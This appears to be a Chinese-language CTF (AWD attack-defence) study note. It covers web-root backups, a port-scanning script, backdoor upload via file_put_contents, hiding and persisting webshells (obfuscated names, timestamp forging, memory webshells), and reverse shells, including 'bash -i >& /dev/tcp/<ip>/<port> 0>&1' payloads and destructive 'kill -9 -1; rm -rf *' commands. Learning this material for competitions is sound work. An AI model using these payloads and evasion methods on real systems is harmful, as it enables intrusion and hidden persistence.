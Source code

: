 
# 环境

## 靶机环境

如果没有安装python，可以尝试安装到有权限写入的目录：
```sh
./configure --prefix=/home/ctf/python32  
make  
make install
```



# 命令
通常用于自动化脚本编写。
#### scp
基于ssh

```sh
# 将本地文件上传到 远程ssh server 端口为12345的目录上 
scp -P 12345 /home/1.zip root@127.0.0.1:/home
```


# 防御

## 源码备份

```sh
# zip
zip -r xxx.zip ./*
unzip xxx.zip -d

# tar
tar -cvpf /home/ctf/backup.tar -C /var/www/html . # -p 保持文件权限一致; -C 设置目标路径，不设置如果用绝对路径则包含父目录路径加入压缩包（注意，后面不能跟./*，而只能直接是.，否则会产生莫名其妙的错误）
tar --same-owner -xvpf xxx.tar -C /home/ctf/xxx

# same-owner 是super user默认的配置，普通用户似乎时常不管用

```

备份到本地、以及源站上`/home/xxx`目录一份，不建议备份到`/tmp`，因为攻击者通过`/var/www/`攻击的访问权限是在`/tmp`以及`/tmp/www/html`目录下
## 信息收集


```sh
id # 获取用户所在组。根据权限的不同，进行网站恢复、不死马的查杀。
ls -l /var/www/html # 获取权限 所属者 所属组
# 权限格式：所有者权限 组权限 其他用户权限


```


### 主机发现

AWD主机发现
    线下
        大家处于一个网段，根据ip划分
        nmap
    线上
        根据端口划分(web\ssh),可能有其他比赛
        scan.py

区分选手和裁判：
        check
        down
        waf
```python
import requests

ip = 'http://61.147.171.104:'

for i in range(51200,51230):
    url = ip + str(i)
    try:
        req = requests.get(url, timeout=1).text
        if '网络探测demo' in req:
            print(url + '    success')
        else:
            print(url + '    fail')
    except:
        print(url + '    error')

```

### 目录发现

```sh
# 2是标准错误输出，输出到一个不存在的路径，可以随便填，优雅点就填下面的 `/dev/null` is a special device file where any data received by the file is discarded. The null device is often known as a **black hole** as all the data that goes into it is lost forever.
find / -name 'xxx.php' 2> /dev/null  # 注意2>必须写在一起

```

## 主机恢复


```sh
# 以www-data用户执行 （比如使用蚁剑，或自建相关木马脚本然后通过网站执行）
kill -9 -1  # 终止你拥有的全部进程
rm -rf *
# 恢复
```


## 攻击

### 上传

利用内置后门
`file_put_contents('xx', base64_decode(base64_encode('TrojansContent')))`
### 防利用

#### 后门加密码

- 写死密码
- 动态密码
- MD5
- RSA密码
#### 流量混淆

难以让别人通过流量监控知道如何攻击

### 防检测防删除
#### 混淆
- 文件名混淆、或假名
#### 困难删除
- 命名：使用`     .php`或`-- -.php`等不太好手动删除的文件（但可以直接通过FTP工具删除）
- 

#### 时间变化
 有三种时间：
- atime (access time)
- ctime (change time)
- mtime (modified time)

```sh
stat <file> # 可以查看文件状态信息，包括三种时间。
touch -r <oldFile> <newFile> # 可以将`oldFile`和`newFile`时间戳同步，但changeTime似乎会修改失败。
```

#### 不死马
首先需要www-data用户对目录有写权限去上传文件。
免杀
##### 内存马
自身执行一次后，把自己删除，自身已经驻留在内存之中，可以不断执行一些复活等操作，来进行权限维持。

**防御方法**
- 使用内存马的相同的用户（不然可能没有权限），运行`kill -9 -1 && rm -rf *`
当然如果有权限可以采用下面的命令：

```sh
ps aux | grep www-data | awk '{print $2}' | xargs kill -9
#The "ps aux" command lists all running processes on the system. 
#The "|" (pipe) symbol sends the output of the "ps aux" command to the "grep www-data" command, which searches for any processes that have "www-data" in their name. 
#The output of the "grep" command is then sent to the "awk '{print $2}'" command, which extracts the second column (the process ID) from the output. 
```


- 使用条件竞争，写相同的复活脚本，同名文件，对内容进行篡改，然后复活时间小于等于内存马，可以使其失效。

### 反弹Shell
正向连接是指由客户端向服务端发起连接请求，而反向连接则是相反。在反弹shell (reverse shell) 中，由客户端监听指定的 TCP/UDP 端口，由服务端发起连接请求到该端口，建立起shell连接。与常见的 Telnet、ssh等shell相比，不同的是由服务端主动发起。
#### 适用情况
- 由于防火墙等的控制访问策略，客户端无法访问服务端，但服务端可以向外网发起请求
- IP会动态变化，攻击机无法直接连接
- 向局域网中的主机散播木马病毒等，网络环境未知的情况下
- 服务端的AV对正向连接的流量检测非常严格，但是对出网流量校验不足
#### 过程

> 不同的操作系统可能不太一样
> 在不同的反弹shell方式中，都需要攻击者（客户端）进行监听，下文将不再赘述，仅讲述不同的反弹方式
> 需要目标机触发payload造成反弹shell

```sh
# 客户端监听端口
nc -lvvp 9999
# -l           listen mode, for inbound connects
# -v           verbose [use twice to be more verbose]
# -n           numeric-only IP addresses, no DNS
# -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])
# Netcat 是 Linux 系统下常用的网络工具，当然也有Windows版本，在 Linux 下使用命令 `nc`，前面的端口监听就是使用 Netcat

# payload1 
bash -i >& /dev/tcp/<ip>/<port> 0>&1 
# payload2 
bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"

#`/dev/tcp/IP/PORT` 特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 `bash` 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。
#`>&` 将联合符号前面的内容与后面相结合，然后一起重定向给后者。
#`0>&1` 将标准输入standard input (0)与标准输出standard output (1)的内容相结合，然后重定向给前面标准输出的内容。
# -i interactive。即产生一个交互式的shell（bash）。

```


[Linux 反弹shell（二）反弹shell的本质 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2549)
其实原理就是这张图：
![](../../attachments/Pasted%20image%2020230907170754.png)
